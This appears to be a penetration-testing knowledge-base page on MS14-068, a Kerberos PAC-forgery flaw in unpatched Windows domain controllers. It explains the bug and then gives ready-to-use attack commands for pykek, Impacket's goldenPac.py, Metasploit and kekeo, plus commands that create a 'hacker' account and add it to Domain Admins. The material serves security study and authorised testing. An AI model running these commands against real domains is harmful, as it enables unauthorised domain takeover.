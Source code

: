 ```yaml
---
description: CVE-2014-6324
authors: ShutdownRepo, sckdev
---
```


# MS14-068

## Theory

This vulnerability allows attackers to forge a TGT with high privileges (i.e. with a modified PAC stating the user is a member of privileged groups). This attack is similar to the [Golden ticket](golden.md), however, it doesn't require the attacker to know the `krbtgt`. This attack is a really powerful privilege escalation technique, however, it relies on a 2014 bug and will not work on patched domain controllers.

This vulnerability is possible due to a misvalidation of the PAC signature, allowing to craft a PAC granting powerful rights to a user while still being legitimate in the eyes of the KDC(Key Distribution Center). Contrary to what Microsoft doc states [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/6e95edd3-af93-41d4-8303-6c7955297315?redirectedfrom=MSDN), there are more than three `SignatureTypes` accepted by the KDC : before MS14-068 patch, a signature was considered valid by `KdcVerifyPacSignature` if its size was <= 20 bytes. Therefore, it was possible to sign a PAC with a non-keyed hashing algorithm such as MD5 and have this PAC be considered valid.

> [!TIP]
> A non-keyed algorithm is a type of encryption that does not use a key to encrypt or decrypt the data. It uses instead a fixed algorithm, which makes it much less secure than a keyed algorithm. Non-keyed algorithms are usually easier to crack or break because they do not have the added security of a key to protect the data.

The exploitation goes as follow:

1. A PAC-less TGT is obtained via an AS-REQ with the `PA-PAC-REQUEST` attribute set to false. This will be used in a later step.
2. A PAC indicating an account membership to powerful groups in the domain is forged and "signed" with MD5 (or any other non-keyed algorithm listed [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/c6dabc82-0792-4475-a44e-ae9b640d2613)).
3. A TGS-REQ message, requesting a service ticket targeting the KRBTGT service (i.e. a TGT-like) is sent to the vulnerable KDC, using the forged PAC from step (2) encrypted with a sub-session key (usually the session key) and included in the TGT from step (1).
4. In response to step (3), a new TGT containing the forged PAC will be received from the vulnerable KDC after its validation of the forged PAC (the vulnerability happens here).

The newly obtained TGT can be use like a [golden ticket](golden.md), with [pass-the-ticket](../ptt.md), to perform privileged various actions.

## Practice

::: tabs

=== UNIX-like

> [!TIP]
> Referring to [kekeo](https://github.com/gentilkiwi/kekeo/wiki/ms14068)'s wiki might help untangle some situations but errors like `KDC_ERR_SUMTYPE_NOSUPP (15)` or `KRB_ERR_GENERIC (60)` when trying to use the generated `.ccache` ticket should mean the target is patched.

**PyKEK**

This attack can be operated with [pykek](https://github.com/mubix/pykek)'s [ms14-068](https://github.com/mubix/pykek/blob/master/ms14-068.py) Python script. The script can carry out the attack with a cleartext password or with [pass-the-hash](../../ntlm/pth.md).

In order to operate the attack, knowing a domain account’s name, its password (or hash) and its SID are needed.

A TGT can then be obtained with one of the following commands.

```bash
# with a plaintext password
ms14-068.py -u "$BASICUSER"@"$DOMAIN_FQDN" -p "$PASSWORD" -s "$BASICUSER_SID" -d "$DC_HOST"

# with pass-the-hash
ms14-068.py -u "$BASICUSER"@"$DOMAIN_FQDN" --rc4 "$NT_HASH" -s "$BASICUSER_SID" -d "$DC_HOST"
```

Once the `.ccache` TGT is obtained, if the attack is successful, the ticket will be usable with [pass-the-ticket](../ptt.md). An easy way to check if the TGT works is to use it and ask for a service ticket. This can be done with Impacket's [getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python).

```bash
getST.py -k -no-pass -spn 'any_valid_spn' "$DOMAIN"/"$USER"
```

This step will only make sure the TGT works though. It will not indicate for sure that the attack worked. This is because a patched DC could ignore the forged PAC and include a legitimate PAC instead. But the TGT would still be valid. It would simply be "unprivileged". Trying to use the service ticket for a privileged taks, [DCSync](../../credentials/dumping/dcsync.md) for instance, is advised.

> [!TIP]
> Another way of knowing, for sure, if the target DC is patched or not is to decrypt the ticket obtained with [describeTicket.py](https://github.com/fortra/impacket/pull/1201) and make sure the PAC features the privileged groups (512, 518, 519, 520). If the privileged groups are missing, it means the DC is patched and the forged PAC was ignored and replaced with a legitimate one. Knowing the krbtgt key is needed, so this would best fit a whitebox audit scenario (or successful pentest).

> [!NOTE]
> In some scenarios, I personally have had trouble using the `.ccache` ticket on UNIX-like systems. What I did was [convert it](../ptt.md#practice) to `.kirbi`, switch to a Windows system, inject the ticket with mimikatz's using[`kerberos:ptt`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/ptt) command, and then create a new user and add it to the domain admins group.
> 
> ```bash
> net user "hacker" "132Pentest!!!" /domain /add
> net group "Domain Admins" /domain /add
> ```

---
**Impacket (goldenPac.py)**

The attack can also be carried out automatically using Impacket's [goldenPac.py](https://github.com/fortra/impacket/blob/master/examples/goldenPac.py) (Python). This tool conducts the attack and tries to open a privileged session using the obtained TGT and PsExec. The TGT can be stored locally with the `-w path` parameter.

```bash
goldenPac.py "$DOMAIN_FQDN"/"$USER":"$PASSWORD"@"$DC_HOST" -dc-ip "$DC_IP"
```

---
**Metasploit Framework**

The Metasploit Framework can also be useful in the sense that it prints valuable error information.

```bash
msf6 > use admin/kerberos/ms14_068_kerberos_checksum
```


=== Windows

**Kekeo**

Prerequisite : Build ms14068.exe following [kekeo's documentation](https://github.com/gentilkiwi/kekeo#readme).

```batch
# NB : ms14068.exe can act in two ways
# /ticket : Write the obtained ticket on disk with default name tgt.kirbi
# /ptt : Pass-the-ticket by directly injecting the obtained TGT into LSA

# with password
# domain SID and user RID are automaticaly discovered
ms14068.exe /domain:$domain /user:$user /password:$password /kdc:$VULN_KDC_FQDN

# with an NT hash
# AES-128 and AES-256 keys are also usable with /aes128 and /aes256 respectively
# note that automatic discovery of the user SID is not possible when using hash 
ms14068.exe /domain:$domain /user:$user /key:$krbtgt_NThash /sid:$DomainSID /rid:$userRelativeID /kdc:$KDC_FQDN
```

:::


## Resources

[https://labs.withsecure.com/publications/digging-into-ms14-068-exploitation-and-defence](https://labs.withsecure.com/publications/digging-into-ms14-068-exploitation-and-defence)

[https://ruuand.github.io/MS14-068/](https://ruuand.github.io/MS14-068/)

[https://adsecurity.org/?p=525](https://adsecurity.org/?p=525)

[https://adsecurity.org/?p=541](https://adsecurity.org/?p=541)

[https://www.beyondtrust.com/blog/entry/a-quick-look-at-ms14-068](https://www.beyondtrust.com/blog/entry/a-quick-look-at-ms14-068)

[https://github.com/gentilkiwi/kekeo/wiki/ms14068](https://github.com/gentilkiwi/kekeo/wiki/ms14068)